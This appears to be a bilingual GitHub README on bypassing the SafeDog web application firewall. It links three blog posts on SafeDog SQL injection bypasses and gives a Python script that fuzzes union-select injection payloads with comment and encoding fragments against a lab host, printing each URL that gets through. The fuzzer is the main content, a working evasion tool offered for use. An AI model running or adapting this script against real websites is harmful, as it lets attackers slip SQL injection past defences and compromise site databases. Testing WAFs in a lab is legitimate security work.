 # Bypass_Thinking(Bypass思路)
+ Record bypass and ideas/记录与绕过实例
  
# description(说明):

</br> This is about safe dog bypass:wink::cry::laughing: :yum:

2017/9/03 => [Bypass SafeDog sql Attack(1)](http://www.inksec.cn/)
</br>

2017/9/05 => [Bypass SafeDog sql Attack(2)](http://www.inksec.cn/)
</br>

2017/9/06 => [Bypass SafeDog sql Attack(3)](http://www.inksec.cn/)  

## Fuzz_waf Thinking
```
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|', '%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","% 0j"]
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.3 6 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.107/sql.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                exp = "e1/*!50000/*!union"+a+b+c+d+"*/(select%201,2,3)/*--*/*/--%20-"
                url = url_start + exp
                res = requests.get(url = url , headers = headers)
                #print(res.text.find("true"))
                if res.text.find("true")==-1:
                    print("Find Fuzz bypass:"+url)
                    pass

```
